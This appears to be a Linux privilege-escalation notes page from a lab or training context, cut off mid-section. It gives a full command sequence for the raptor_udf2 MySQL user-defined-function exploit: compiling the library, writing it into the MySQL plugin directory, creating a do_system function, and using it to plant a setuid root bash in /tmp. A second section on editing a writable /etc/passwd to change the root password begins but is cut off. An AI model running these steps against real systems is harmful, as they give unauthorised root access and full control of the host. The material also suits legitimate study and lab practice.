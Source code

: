 ```c
// milw0rm.com [2006-02-20]       
```
- **In this file there is a detail info about how to get access**

### In short
```sh
cd /home/user/tools/mysql-udf

gcc -g -c raptor_udf2.c -fPIC

gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

mysql -u root 

```
**MySql part**
```sql
use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

exit
```
**Getting Root**
```sh
/tmp/rootbash -p

rm /tmp/rootbash
exit
```
## Through /etc/shadow


#### Modifying the `/etc/passwd` File to Change Root User Password

The `/etc/passwd` file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the `/etc/passwd` file contained user password hashes, and some versions of Linux still allow password hashes to be stored there.

##### Step 1: Check if `/etc/passwd` is World-Writable

To check if the `/etc/passwd` file is world-writable, run the following command:
